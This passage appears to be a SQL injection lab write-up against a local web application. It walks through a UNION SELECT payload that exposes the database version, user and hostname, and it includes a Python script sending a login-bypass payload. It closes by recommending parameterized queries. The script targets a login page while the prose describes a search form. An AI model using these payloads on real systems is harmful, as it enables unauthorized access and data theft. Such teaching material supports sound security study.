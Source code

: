 4. **Effect of the Payload:**
   When this payload is inserted into the SQL query, it transforms the query to:
   ```sql
   SELECT ProductName, ProductType, Description, Price FROM products WHERE ProductName LIKE '%1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- %';
   ```
   The UNION SELECT part retrieves the database information and appends it to the results of the original query.

5. **Executing the Payload:**
   By submitting this payload through the search form, the application runs the modified query and includes the server information in the search results.

6. **Extracting and Displaying the Information:**
   The script parses the HTML response to locate the table containing the search results. The relevant information (MySQL version, current user, and hostname) is then extracted and displayed.

#### Python Script Usage
The provided Python script automates this injection process:
- It sends a POST request with the crafted payload.
- Parses the response to extract and display the table containing the server information.

By running this script, we successfully extracted critical server information using SQL injection, demonstrating the risks associated with insecure handling of user input in web applications.

### Summary
The SQL injection worked by leveraging the UNION SELECT statement to retrieve database information. Identifying the correct number of columns was crucial to ensuring the success of the injection. This exercise underscores the importance of using prepared statements or parameterized queries to prevent SQL injection attacks.


```python
import requests
from bs4 import BeautifulSoup

# URL of the login page
login_url = 'http://localhost:8000/login.php'

# Specific SQL injection payload
username_payload = "alice'); -- "

password_payload = "password"  # Dummy value since the payload is targeting username

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request
data = {
    'uid': username_payload,
    'password': password_payload
}

# Send the POST request to login
response = session.post(login_url, data=data)

# Parse the HTML response
soup = BeautifulSoup(response.text, 'html.parser')

# Extract the specific element's content
marketing_div = soup.find('div', class_='row marketing')
result_text = marketing_div.get_text(strip=True) if marketing_div else "No marketing div found"

# Print the result for this payload
print(f"Payload: {username_payload}")
print(f"Result: {result_text}\n")
```